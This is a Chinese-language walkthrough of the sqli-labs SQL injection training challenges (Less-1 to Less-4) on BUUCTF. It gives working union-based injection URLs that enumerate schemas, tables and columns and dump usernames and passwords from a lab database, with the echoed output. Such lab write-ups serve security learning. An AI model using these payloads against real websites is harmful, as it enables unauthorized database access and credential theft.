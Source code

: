 ## sqli-libs

以下覆盖了基本的解法，如果遇到对应的题目，可以尝试下面解法。

[github](https://github.com/Audi-1/sqli-labs)

[BUUCTF](https://buuoj.cn/challenges#sqli-labs)

### Less-1 (GET - 基于错误的字符串注入)

1. 因为知道这里是有漏洞的，那就先猜字段数，这里传递 3 是正常的，传递 4 报错，因此字段数为 3.

```bash
http://d83b1fd5-8cf3-4432-8298-910dffdeaed0.node5.buuoj.cn/Less-1?id=1' order by 3 --+
```

2. 接下来使用联合查询，看看能不能回显信息.

```bash
http://d83b1fd5-8cf3-4432-8298-910dffdeaed0.node5.buuoj.cn/Less-1?id=1' and 1=2 union select 1,"哈哈",2--+
```

> and 1=2 表示让前面的语句失效

![less-1-1](./assets/sqli-libs/less-1-1.png)

3. 接下来可以进一步获取一些数据库信息。比如查找所有的数据库。

```bash
/Less-1/?id=1' AND 1=2 union select 1,(select group_concat(schema_name) from information_schema.schemata),3 --+
```

回显结果如下

> Your Login name:ctftraining,information_schema,mysql,performance_schema,security,test

1. 查看数据库内的表名称

```bash
/Less-1/?id=1' AND 1=2 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 --+
```

> Your Login name:emails,referers,uagents,users

5. 查看`users`表的列名

```bash
/Less-1/?id=1' AND 1=2 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),3 --+
```

> Your Login name:id,username,password,ip,time,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password

6. 查看用户名密码

```bash
/Less-1/?id=1' AND 1=2 union select 1,(select group_concat(password) from security.users) ,(select group_concat(username) from security.users) --+
```

![less-1-2](./assets/sqli-libs/less-1-2.png)

这道题就解决了,这是基础用法，一般不可能在真正的src渗透中找到这种门户大开的漏洞。


### Less-2 (GET-基于错误的数字型注入)

解法跟 [Less-1](#less-1-get---基于错误的字符串注入)相同，只需要去掉前面的 `'` 符号。

### Less-3 (GET-基于错误的带有括号的单引号字符串注入)

这题既然也是报错，那我们就一步到位使用`Less`最后的pyload

```bash
/Less-3/?id=1 ' AND 1=2 union select 1,(select group_concat(password) from security.users) 
```

![less-3-1](./assets/sqli-libs/less-3-1.png)

根据错误，我们只需再补充一个括号就好了。

```bash
/Less-3/?id=1 ') AND 1=2 union select 1,(select group_concat(password) from security.users) ,(select group_concat(username) from security.users) --+
```

### Less-4 (基于错误的双引号字符型注入)

第四题看题目猜答案。

```bash
/Less-4/?id=1 ") AND 1=2 union select 1,(select group_concat(password) from security.users) ,(select group_concat(username) from security.users) --+
```

### Less-5 (双注入-单引号-字符型)



